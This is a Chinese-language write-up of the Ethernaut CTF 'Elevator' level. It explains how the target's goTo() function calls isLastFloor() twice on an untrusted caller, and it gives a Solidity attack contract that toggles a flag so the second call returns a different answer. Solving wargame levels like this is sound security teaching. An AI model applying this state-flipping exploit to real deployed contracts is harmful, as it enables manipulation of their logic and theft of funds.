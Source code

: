 # Elevator

## Reference
[Elevator](https://ethernaut.openzeppelin.com/level/11)

[Elevator.sol](https://github.com/yuhuajing/ethernaut-book/blob/main/src/11-Elevator/Elevator.sol)

## 目标
1. 构建一个`Building`合约，实现电梯永远不会到顶

## 分析
### goto()
```solidity
    function goTo(uint256 _floor) public {
        Building building = Building(msg.sender);

        if (!building.isLastFloor(_floor)) {
            floor = _floor;
            top = building.isLastFloor(floor);
        }
    }
```
1. goto()函数实现电梯上下行
2. `!building.isLastFloor(_floor)`,通过判断电梯是否到顶
   1. 为了实现永不到顶，此处的判断应该返回false
   2. 进入 if 分支后：
      1. 电梯上/下行，修改 floor 的楼层数
      2. 通过 `building.isLastFloor(floor);`再次获取是否到达顶层
3. if条件和当前是否到顶是同此独立的外部 call 获取参数。按照分支判断，要求第一次查询参数返回false,第二次返回true。表明当前已经到顶，但是下次仍然可以上/下行

| 次数    | 结果    |
|-------|-------|
| One   | false |
| Two   | true  |
| Three | false |
| ...   | ...   |
| 奇数次   | false |
| 偶数次   | true  |
4. 通过bool flag全局变量实现次数的控制
```solidity
        if (!flag) {
            flag = true;
            return false;
        } else {
            flag = false;
            return true;
        }
```
## 攻击合约
```solidity
    function attack(uint256 _floor) external {
        elevator.goTo(_floor);
    }

    function isLastFloor(uint256) public returns (bool) {
        if (!flag) {
            flag = true;
            return false;
        } else {
            flag = false;
            return true;
        }
    }
```
## attack()
1. `attack()`函数底层`call Elevator`合约
2. 在`Elevator`合约中，反调攻击合约的 `isLastFloor()` 函数，判断楼层和到顶情况

## 实现步骤
1. 部署攻击合约 `AttackBuilding`，部署目标合约 `Elevator`
2. 调用攻击合约 `AttackBuilding` 的 `attack()` 函数，实现电梯任意上/下行楼层，并且当次到顶
